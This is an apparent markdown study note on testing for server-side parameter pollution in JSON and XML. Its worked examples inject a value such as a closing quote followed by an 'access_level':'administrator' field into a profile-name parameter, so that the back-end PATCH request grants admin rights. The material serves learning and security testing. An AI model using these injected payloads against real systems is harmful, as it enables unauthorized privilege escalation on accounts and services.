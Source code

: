 # 10. Testing for server-side parameter pollution in structured data formats

### 🧠 Overview

An attacker may be able to manipulate parameters to exploit vulnerabilities in how the **server processes structured data formats** like **JSON** or **XML**.

🧪 To test this, inject **unexpected structured data** into user inputs and observe how the server responds.

---

### 🔄 Example 1: Form Data Injection

---

### 🧾 User Behavior:

User edits their name in the profile.

Client-side request:

```
POST /myaccount
name=peter

```

Server-side request generated:

```
PATCH /users/7312/update
{"name":"peter"}

```

---

### 🚨 Exploit Attempt:

Inject additional field into the value:

```
POST /myaccount
name=peter","access_level":"administrator

```

If no proper validation/sanitization is applied, server-side request becomes:

```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}

```

🟢 **Result:**

The user `peter` may now gain **administrator privileges**.

---

## 🧪 Example 2: JSON Input Injection

---

### 🧾 Client-side JSON request:

```
POST /myaccount
{"name": "peter"}

```

Resulting server-side request:

```
PATCH /users/7312/update
{"name":"peter"}

```

---

### 🚨 Exploit Attempt:

Send:

```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}

```

If improperly decoded and injected, server builds:

```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}

```

🟢 **Impact:**

The input pollutes the JSON object, adding **admin-level privileges** to the user.

---

## 📤 Structured Format Injection in Responses

Structured format injection can also occur in **responses**, particularly if:

- User input is securely stored in a **database**
- Then embedded into a **JSON response** from a back-end API
- Without **proper encoding**

🛠️ These vulnerabilities are typically **detectable and exploitable in the same way** as structured injection in requests.

---

## 📚 Related Pages

🔗 For how to identify injectable parameters:

**➡️ [Finding hidden parameters](https://chatgpt.com/c/686b5c29-d864-8006-90da-44dcbc63fa83#)**

📦 For similar attacks in XML:

**➡️ See the *XInclude attacks* section in the *XML External Entity (XXE) injection* topic**

---

### 📌 Note:

> While the above examples use JSON, server-side parameter pollution can occur in any structured data format, including XML, YAML, INI, etc.
>